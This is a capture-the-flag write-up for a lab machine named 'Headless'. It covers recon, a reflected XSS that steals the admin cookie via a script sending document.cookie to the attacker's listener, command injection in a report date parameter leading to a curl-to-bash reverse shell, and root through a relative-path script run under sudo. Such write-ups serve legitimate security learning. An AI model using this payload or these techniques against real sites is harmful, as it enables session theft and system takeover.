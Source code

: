 # Headless

### Recon

- open ports:
    - ssh\22 - OpenSSH 9.2p1 Debian 2+deb12u2
    - http\5000
    - OS: Linux

There is a form on /support

![image.png](image.png)

and forbidden page on /dashboard (I used gobuster to find it)

![image.png](image%201.png)

**admin cookie header**

I noticed cookie header is_admin, the first part is base64 encoded word “user”, I tried changing to admin, but to no avail, haven’t been able to crack the second part

![image.png](image%202.png)

**XSS**

I tried some XSS scripts and checking for SSTI, the sites behaves normally every time except when the payload is inserted into the message box. Then the site reflects user’s request

![image.png](image%203.png)

I tried changing the host header in my request to `<script>alert(1)</script>`, I used <> because these characters fire up the reflection

![image.png](image%204.png)

XSS!!!!

![image.png](image%205.png)

**Stealing admin cookie**

Inserting `<script> var i=new Image(); i.src=”http://10.10.16.11:8001/?cookies=”+document.cookie;</script>`

![image.png](image%206.png)

Setting up a listener, connection comes through, getting the admin cookie

![image.png](image%207.png)

**Getting shell (command injection)**

I copied the stolen cookie into the is_admin paramater and got admin access

![image.png](image%208.png)

![image.png](image%209.png)

after catching the request for generating report, I saw the weird date paramater on the bottom

![image.png](image%2010.png)

I put a semicolon after the date and tried whoami and it worked!

![Snímek obrazovky 2024-11-04 195620.png](Snmek_obrazovky_2024-11-04_195620.png)

creating a reverse shell payload, setting up listener for downloading the shell and netcat listener for the reverse shell itself

![image.png](image%2011.png)

![image.png](image%2012.png)

sending curl piped to bash

![image.png](image%2013.png)

and I got a shell as user 

![image.png](image%2014.png)

I stabilise the shell with stty/script trick

### Getting root

user dvir can run /usr/bin/syscheck

![image.png](image%2015.png)

there is vulnerability syscheck program doesn’t specify the whole path to [intidb.sh](http://intidb.sh) when executing it, so I can create my own intidb.sh in the directory I am now and get the root through it

![image.png](image%2016.png)

![image.png](image%2017.png)

I set up a listener netcat and after running syscheck I got the root shell!!

![image.png](image%2018.png)
